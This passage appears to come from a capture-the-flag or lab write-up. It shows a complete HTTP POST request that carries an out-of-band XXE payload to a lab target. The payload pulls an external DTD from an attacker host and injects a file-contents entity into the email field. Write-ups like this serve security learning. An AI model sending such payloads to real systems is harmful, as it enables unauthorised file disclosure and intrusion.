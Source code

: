 We also need to add this in the `email` tag:

```
&fileContents;
```

So, an example of our request would be:

```http
POST /submitDetails.php HTTP/1.1

Host: 10.129.62.218

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: text/plain;charset=UTF-8

Content-Length: 246

Origin: http://10.129.62.218

Connection: keep-alive

Referer: http://10.129.62.218/

Priority: u=0



<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE email [

  <!ENTITY % dtd SYSTEM

  "http://10.10.15.192:8000/xxe.dtd">

  %dtd;

  %all;

]>
<root>
<name>test</name>
<tel></tel>
<email>

&fileContents;

</email>
<message>1111</message>
</root>
```
